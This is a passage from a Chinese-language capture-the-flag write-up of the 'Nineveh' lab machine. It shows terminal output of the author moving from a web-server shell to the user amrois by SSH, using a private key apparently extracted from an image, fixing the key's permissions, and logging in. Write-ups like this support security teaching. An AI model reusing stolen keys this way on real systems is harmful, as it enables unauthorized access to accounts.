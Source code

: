 

### www-data → amrois

尝试ssh  amrois@10.10.10.43，并使用在nineveh.png中提取出来的私钥

这里发现必须在拿到的shell中去ssh，不能直接从外部远程

```Bash
www-data@nineveh:/dev/shm$ ping nineveh.htb
PING nineveh.htb (127.0.1.1) 56(84) bytes of data.
64 bytes from nineveh.htb (127.0.1.1): icmp_seq=1 ttl=64 time=0.055 ms
64 bytes from nineveh.htb (127.0.1.1): icmp_seq=2 ttl=64 time=0.054 ms
64 bytes from nineveh.htb (127.0.1.1): icmp_seq=3 ttl=64 time=0.060 ms
^C
--- nineveh.htb ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 1998ms
rtt min/avg/max/mdev = 0.054/0.056/0.060/0.006 ms
www-data@nineveh:/dev/shm$

# 使用域名、127.0.0.1、 10.10.10.43都是可以远程的
www-data@nineveh:/dev/shm$ ssh -i id_rsa amrois@nineveh.htb
Could not create directory '/var/www/.ssh'.
The authenticity of host 'nineveh.htb (127.0.1.1)' can't be established.
ECDSA key fingerprint is SHA256:aWXPsULnr55BcRUl/zX0n4gfJy5fg29KkuvnADFyMvk.
Are you sure you want to continue connecting (yes/no)? yes
Failed to add the host to the list of known hosts (/var/www/.ssh/known_hosts).
Ubuntu 16.04.2 LTS
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@         WARNING: UNPROTECTED PRIVATE KEY FILE!          @
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
Permissions 0644 for 'id_rsa' are too open.
It is required that your private key files are NOT accessible by others.
This private key will be ignored.
Load key "id_rsa": bad permissions
Permission denied (publickey).
www-data@nineveh:/dev/shm$
www-data@nineveh:/dev/shm$ chmod 600 id_rsa
www-data@nineveh:/dev/shm$ ssh -i id_rsa amrois@nineveh.htb
Could not create directory '/var/www/.ssh'.
The authenticity of host 'nineveh.htb (127.0.1.1)' can't be established.
ECDSA key fingerprint is SHA256:aWXPsULnr55BcRUl/zX0n4gfJy5fg29KkuvnADFyMvk.
Are you sure you want to continue connecting (yes/no)? yes
Failed to add the host to the list of known hosts (/var/www/.ssh/known_hosts).
Ubuntu 16.04.2 LTS
Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-62-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

288 packages can be updated.
207 updates are security updates.


You have mail.
Last login: Mon Jul  3 00:19:59 2017 from 192.168.0.14
amrois@nineveh:~$

```
